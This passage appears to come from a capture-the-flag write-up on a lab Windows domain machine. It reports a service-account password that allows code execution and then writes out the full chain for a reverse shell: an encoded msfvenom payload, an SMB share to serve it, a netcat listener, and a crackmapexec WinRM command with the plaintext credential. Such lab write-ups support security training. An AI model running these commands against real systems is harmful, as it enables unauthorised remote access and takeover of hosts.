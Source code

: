 It seems like the password works for `svc-scan` but only `svc-print` allows for code execution. Use it to get a dedicated shell on the target:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 6969
crackmapexec winrm 10.10.10.193 -d 'fabricorp.local' -u 'svc-print' -p '$fab@s3Rv1ce$1' -x 'cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe'
```

This returns a shell with `user.txt`:

![user1](./fuse/user1.png)
